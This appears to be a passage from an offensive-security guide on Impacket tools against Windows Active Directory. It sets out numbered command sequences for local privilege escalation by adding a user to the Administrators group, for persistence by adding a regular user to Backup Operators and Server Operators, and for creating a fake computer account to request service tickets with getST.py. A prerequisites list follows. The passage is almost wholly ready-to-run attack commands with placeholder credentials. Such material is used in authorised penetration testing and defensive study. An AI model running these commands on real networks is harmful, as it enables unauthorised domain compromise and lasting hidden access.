 ### Local Privilege Escalation
```bash
# Step 1: Enumerate local groups on target system
python3 net.py domain.com/user:password@target.domain.com localgroup

# Step 2: Check current members of local Administrators group
python3 net.py domain.com/user:password@target.domain.com localgroup -name Administrators

# Step 3: Add domain user to local Administrators group
python3 net.py domain.com/admin:password@target.domain.com localgroup -name Administrators -join "DOMAIN\user"

# Step 4: Verify local admin access
python3 psexec.py domain.com/user:password@target.domain.com
```

### Persistence Through Group Membership
```bash
# Step 1: Identify existing service accounts
python3 net.py domain.com/admin:password@dc.domain.com user | grep -i service

# Step 2: Add regular user to privileged groups
python3 net.py domain.com/admin:password@dc.domain.com group -name "Backup Operators" -join regularuser
python3 net.py domain.com/admin:password@dc.domain.com group -name "Server Operators" -join regularuser

# Step 3: Verify persistence mechanism
python3 net.py domain.com/regularuser:password@dc.domain.com group -name "Backup Operators"
```

### Computer Account Manipulation
```bash
# Step 1: Create new computer account for delegation attacks
python3 net.py domain.com/admin:password@dc.domain.com computer -create FAKE$ -newPasswd Password123!

# Step 2: Verify computer account creation
python3 net.py domain.com/admin:password@dc.domain.com computer -name FAKE$

# Step 3: Use computer account for further attacks
python3 getST.py -spn cifs/target.domain.com domain.com/FAKE$:Password123!

# Step 4: Clean up computer account if needed
python3 net.py domain.com/admin:password@dc.domain.com computer -remove FAKE$
```

## Prerequisites
- Python 3.x with Impacket installed
- Valid domain credentials or local administrator credentials
- Network access to target system via SMB (ports 139 or 445)
- Understanding of Windows account and group management concepts
- Knowledge of SAMR RPC protocol basics
